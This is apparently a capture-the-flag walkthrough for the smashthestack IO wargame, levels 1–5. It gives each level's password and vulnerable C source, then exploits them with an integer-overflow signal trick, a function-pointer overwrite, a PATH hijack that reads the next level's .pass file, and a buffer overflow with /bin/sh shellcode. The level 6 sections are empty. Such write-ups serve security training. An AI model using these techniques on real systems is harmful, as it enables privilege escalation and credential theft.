 # [smashthestack](http://smashthestack.org/)

## [IO](http://io.smashthestack.org:84/)

### level-1

        # ssh level1@io.smashthestack.org
        password: level1
        
        # cd /levels/
        # gdb level01
        (gdb) disassemble main
        
        Dump of assembler code for function main:
        0x08048080 <+0>:	push   $0x8049128
        0x08048085 <+5>:	call   0x804810f <puts>
        0x0804808a <+10>:	call   0x804809f <fscanf>
        0x0804808f <+15>:	cmp    $0x10f,%eax
        0x08048094 <+20>:	je     0x80480dc <YouWin>
        0x0804809a <+26>:	call   0x8048103 <exit>
        End of assembler dump.
        
        # ./level01
        Enter the 3 digit passcode to enter: 271
        Congrats you found it, now read the password for level2 from /home/level2/.pass
        
### level-2

        # ssh level2@io.smashthestack.org
        password: 3ywr07ZFw5IsdKzU

#### level02
        
        # cat /levels/level02.c
        
        #include <stdio.h>
        #include <stdlib.h>
        #include <signal.h>
        #include <setjmp.h>

        void catcher(int a)
        {
            setresuid(geteuid(),geteuid(),geteuid());
            printf("WIN!\n");
            system("/bin/sh");
            exit(0);
        }

        int main(int argc, char **argv)
        {
            puts("source code is available in level02.c\n");

            if (argc != 3 || !atoi(argv[2]))
                return 1;
            signal(SIGFPE, catcher);
            return abs(atoi(argv[1])) / atoi(argv[2]);
        }

        # /levels/level02 -2147483648 -1
        WIN!

#### level02_alt

        # cat /levels/level02.c

        #include <stdio.h>
        #include <stdlib.h>
        #include <unistd.h>

        #define answer 3.141593

        void main(int argc, char **argv) {
            float a = (argc - 2)?: strtod(argv[1], 0);
            
            printf("You provided the number %f which is too ", a);
            if(a < answer)
                puts("low");
            else if(a > answer)
                puts("high");
            else
                execl("/bin/sh", "sh", "-p", NULL);
        }

        
        # /levels/level02_alt nan
        
### level-3

        # ssh level3@io.smashthestack.org
        password: IFd92yzOnSMv9tkX

        # cat /levels/level03.c
        
        #include <stdio.h>
        #include <string.h>

        void good()
        {
            puts("Win.");
            execl("/bin/sh", "sh", NULL);
        }
        void bad()
        {
            printf("I'm so sorry, you're at %p and you want to be at %p\n", bad, good);
        }

        int main(int argc, char **argv, char **envp)
        {
            void (*functionpointer)(void) = bad;
            char buffer[50];

            if(argc != 2 || strlen(argv[1]) < 4)
                return 0;

            memcpy(buffer, argv[1], strlen(argv[1]));
            memset(buffer, 0, strlen(argv[1]) - 4);

            printf("This is exciting we're going to %p\n", functionpointer);
            functionpointer();

            return 0;
        }
        
        # /levels/level03 something
        
        This is exciting we're going to 0x80484a4
        I'm so sorry, you're at 0x80484a4 and you want to be at 0x8048474
        
        # /levels/level03 `echo -e "123451234512345123451234512345123451234512345123451234512345123451234512345=\x74"`
        This is exciting we're going to 0x8048474
        Win.

### level-4

        # ssh level4@io.smashthestack.org
        password: nSwmULj2LpDnRGU2

#### level04

        # cat /levels/level04.c
        
        #include <stdlib.h>
        #include <stdio.h>

        int main() {
            char username[1024];
            FILE* f = popen("whoami","r");
            fgets(username, sizeof(username), f);
            printf("Welcome %s", username);

            return 0;
        }
        
        # /levels/level04
        Welcome level5
        
        # mkdir /tmp/ving_dir
        # echo cat /home/level5/.pass >> /tmp/ving_dir/whoami
        # chmod 777 /tmp/ving_dir/whoami
        # ls -l /tmp/ving_dir
        -rwxrwxrwx 1 level4 level4 23 Nov 24 10:44 whoami
        
        # PATH="/tmp/ving_dir:$PATH"
        # echo $PATH
        /tmp/ving_dir:/usr/local/bin:/usr/bin:/bin:/usr/local/games:/usr/games
        
        # /levels/level04
        Welcome LOoCy5PbKi63qXTh
        
#### level04_alt

        # cat /levels/level04_alt.c

        #include <stdlib.h>
        int main(){
            setresuid(geteuid(), geteuid(), geteuid());
            system("/usr/bin/id");
        }
        
### level-5

        # ssh level5@io.smashthestack.org
        password: LOoCy5PbKi63qXTh
        
#### level05

        # cat /levels/level05.c
        
        #include <stdio.h>
        #include <string.h>

        int main(int argc, char **argv) {
            char buf[128];
            if(argc < 2) return 1;
            strcpy(buf, argv[1]);
            printf("%s\n", buf);
            return 0;
        }
        
        # /levels/level05 `python -c 'print "\x90"*88+"\x31\xc0\x99\xb0\x0b\x52\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x52\x89\xe2\x53\x89\xe1\xcd\x80"+"\x90"*26+"\xb0\xfb\xff\xbf"'`
        
        # cat /home/level6/.pass
        rXCikld0ex3EQsnI

### level-6

        # ssh level6@io.smashthestack.org
        password: rXCikld0ex3EQsnI
        
#### level06

        # cat /levels/level06.c
        
#### level06_alt
